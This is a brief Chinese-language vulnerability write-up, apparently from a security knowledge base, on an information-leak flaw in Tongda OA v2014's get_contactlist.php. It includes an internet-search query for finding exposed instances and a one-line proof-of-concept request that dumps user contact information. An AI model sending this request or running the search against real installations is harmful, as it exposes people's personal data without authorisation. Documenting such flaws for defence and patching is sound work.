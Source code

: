 ```yaml
---
article: false
title: OA产品-通达
icon: any
order: 2
---
```


# OA产品-通达

## 通达OA v2014 get_contactlist.php 敏感信息泄漏漏洞

### 漏洞描述
通达OA v2014 get_contactlist.php文件存在信息泄漏漏洞，攻击者通过漏洞可以获取敏感信息，进一步攻击

### 漏洞影响

* 通达OA v2014

### 网络测绘

```
app="TDXK-通达OA"
```

### 漏洞复现

版本信息

![[image-20220912183540016.png]]

验证POC
```
/mobile/inc/get_contactlist.php?P=1&KWORD=%25&isuser_info=3
```

![[image-20220912183703454.png]]

